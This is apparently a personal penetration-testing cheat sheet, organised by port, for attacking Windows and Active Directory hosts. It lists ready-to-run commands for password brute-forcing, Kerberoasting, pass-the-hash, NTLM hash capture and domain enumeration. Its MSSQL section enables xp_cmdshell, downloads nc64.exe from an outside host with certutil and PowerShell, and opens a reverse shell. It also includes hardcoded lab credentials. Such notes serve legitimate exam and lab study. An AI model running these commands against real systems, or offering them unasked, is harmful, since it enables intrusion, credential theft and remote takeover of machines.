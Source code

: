 ## Enumeration Checklist

# set your variables

`target=`<br>
`user=`<br>
`pass=`<br>
`ip=`<br>
`domain=`<br>

# 21 FTP

`hydra -l <user list> -P <password list> ftp://$ip`

common creds patterns<br>

admin/admin<br>
root/root<br>
password/password<br>
username/username<br>


# 53 DNS

`dig @$ip version.bind CHAOS TXT`<br>
`dig axfr @$ip $domain`<br>
`dnsenum $domain`<br>

# 135 RCP

`rpcclient -U '' -N $ip`<br>
`rpcclient -U '$user%$pass' $ip` <br>

- `> enumdomusers      #check the users on the DC`<br>
- `> queryuser <username>  #query the details of the user`<br>
- `> querydispinfo`<br>

`nmblookup -A $ip`<br>

# 445 SMB

***Without Pass***<br>
`enum4linux -a $ip`<br>
`impacket-lookupsid $domain/$user@$domain -no-pass`<br>
`smbmap  -H 10.10.10.100 --depth 10 -r   #List Shares`<br>
`smbclient -N -L //[ip]`<br>
`smbclient //[ip]/[share] -N   #Enumerate Files`<br>



***With Pass***<br>
`lookupsid.py  $domain$user:$pass@$domain`<br>
`lookupsid.py  #domain/$user:$pass@$ip | grep SidTypeUser | cut -d " " -f 2 | cut -d '\' -f 2<br>`
> [!IMPORTANT]
> This oneliner will create a file with all the domain users

`psexec.py -hashes  :<ntlm hash>    $user@$ip`<br>
`smbmap -H  hokkaido-aerospace.com -u info -p info --depth 10 -r`<br>
`smbclient //$ip/C$ -U '$user%$pass' -c 'dir'`<br>
`netexec smb [host/ip] -u [user] -p [pass] --shares`<br>
`netexec smb [host/ip] -u guest -p '' --shares`<br>
`smbclient //[ip]/[share] -U [username] [password]`<br>
`netexec smb -u [user] -p [pass] -M spider_plus`<br>
`smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass - Kerberos auth`<br>
`manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]`<br>


# 88 Kerberoas

`nmap --script=krb5-enum-users --script-args='userdb=/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' -p88 $ip`<br>
`kerbrute  -dc $ip -domain $domain -users <user file>   #check if the uses are valid`<br>
`impacket-GetNPUsers $domain/$user -dc-ip $ip   #AS Rep; hashcat module 18200`<br>
`impacket-GetUserSPNs -request -dc-ip $ip $domain/$user  #Kerberoasting; Kerberoasting module 13100`<br>
`kerbrute -domain #domain -dc $ip -users /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt`<br>
`kerbrute -domain $domain -dc $ip  -users /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100`<br>


# 389 LDAP

***Without Pass***<br>
`ldapsearch -H ldap://$ip -x -b "DC=oscp,DC=exam"`<br>
`ldapsearch -x -H ldap://$ip -s base namingcontexts`<br>
`impacket-lookupsid '$domain/guest'@$domain -no-pass`<br>

***With Pass***<br>
`lookupsid.py  $domain/$user:$pass@$domain`<br>
`ldapsearch -x -H ldap://$ip -D '$user' -w '$pass' -s base namingcontexts`<br>

`bloodhound-python -d $domain -u $user -p $pass -c all -ns $ip`<br>
`neo4j console'<br>
> [!IMPORTANT]<br>
> config file; /usr/share/neo4j/conf<br>
`./Bloodhound  --no-sandbox`<br>


# 1433 MSSQL

`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth`  #Windows login<br>
`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148   #user login`<br>

`SELECT @@version   #Current MSSQL Version`<br>
`SELECT DB_NAME()   #Current Database`<br>
`SELECT name FROM sys.databases;  #show DBs`<br>	
`enum_db            #show DBs`<br>
`select * from   <DB name>.INFORMATION_SCHEMA.TABLES  #show tables`<br>

***cmd command***<br>
`EXEC sp_configure 'show advanced options', 1;`<br>
`RECONFIGURE;`<br>
`EXEC sp_configure 'xp_cmdshell', 1;`<br>
`RECONFIGURE;`<br>
`EXEC xp_cmdshell ' whoami /priv'`<br>


***powershell***<br>
`xp_cmdshell "certutil -urlcache -f http://192.168.45.247/nc64.exe nc64.exe"  #If cmd command dose not work, upgrade to poershell`<br>
`xp_cmdshell "powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.149.147:1235/nc64.exe'',''C:\Windows\Temp\nc64.exe'')"`<br>
`xp_cmdshell "/windows/temp/nc64.exe 10.10.149.147 1234 -e powershell"`<br>


***NTLM capture***<br>
`xp_dirtree \\192.168.1.210\shared`<br>
`responder -I tun01`
> [!IMPORTANT]
> When the SQL service is running under a machine account, the authentication process returns the machine account hash, which is not crackable (e.g., $DC)

***impersonate***<br>
`enum_impersonate'<br>  > impersonate`<br>
`EXECUTE AS LOGIN = 'username to impersonate'  #impersonate`<br>
`SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`<br>


**MSSQL Cheetsheet**<br>
https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://kwcsec.gitbook.io/the-red-team-handbook/infrastructure/sql/ms-sql/privilege-escalation
https://www.bordergate.co.uk/attacking-mssql/


# 3389 RDP

`xfreerdp /u:$user /p:$pass /v:$ip /cert:ignore +clipboard`

# 5985 WINRM

`evil-winrm -i $ip -u $user -p $pass`
